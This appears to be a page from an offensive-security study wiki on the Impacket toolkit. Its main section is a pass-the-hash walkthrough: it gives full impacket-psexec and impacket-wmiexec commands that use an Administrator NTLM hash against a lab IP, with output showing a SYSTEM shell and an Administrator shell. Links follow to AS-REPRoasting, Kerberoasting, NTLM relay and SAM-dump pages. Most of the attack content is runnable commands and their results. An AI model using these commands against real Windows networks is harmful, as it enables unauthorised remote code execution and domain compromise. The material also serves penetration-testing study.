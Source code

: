 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Impacket

## Pass-the-Hash

> [_NetExec_](netexec.md) _also uses `impacket-psexec` to perform the_ [_PtH attack_](netexec.md#rce)_._

`impacket-psexec` searches for a writable share and uploads an executable file to it. Then it registers the executable as a Windows service and starts it which results in RCE. It requires two arguments:

1. `hashes`: allows us to use NTLM hashes to authenticate to the target. The format is `LMHash:NTHash`, in which we specify the `Administrator`'s NTLM hash after the colon (the `LMHash` part can be left empty).
2. `username@IP`: the target definition.

> _At the end of the command we could specify another argument, which is used to determine which command psexec should execute on the target system. If we leave it empty, `cmd.exe` will be executed, providing us with an interactive shell as `SYSTEM`. We can also use one of the other impacket scripts like `wmiexec.py` to obtain a shell as the user we used for authentication._

{% tabs %}
{% tab title="SYSTEM Shell" %}
{% code overflow="wrap" %}
```bash
# SYSTEM shell
$ impacket-psexec -hashes :7a38310ea6f0027ee955abed1762964b Administrator@192.168.233.212
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Requesting shares on 192.168.233.212.....
[*] Found writable share ADMIN$
[*] Uploading file WIKgrLbX.exe
[*] Opening SVCManager on 192.168.233.212.....
[*] Creating service iVBP on 192.168.233.212.....
[*] Starting service iVBP.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.707]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
{% endcode %}
{% endtab %}

{% tab title="Administrator Shell" %}
{% code overflow="wrap" %}
```bash
# Administrator shell
$ impacket-wmiexec -hashes :7a38310ea6f0027ee955abed1762964b Administrator@192.168.233.212
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
files02\administrator
```
{% endcode %}
{% endtab %}
{% endtabs %}

## AS-REPRoasting

See how to use `impacket-GetNPUsers` [here](../../tl-dr/active-directory/attacks/asreproasting.md#windows).

## Kerberoasting

See how to use `impacket-GetUserSPNs` [here](../../tl-dr/active-directory/attacks/kerberoasting.md#attack).

## NTMLv2 Relay

See how to use `impacket-ntlmrelayx` [here](../../tl-dr/active-directory/attacks/ntlmv2.md#ntmlv2-relay).

## Local SAM Dump

See how to use `impacket-secretsdump` [here](impacket.md#local-sam-dump).
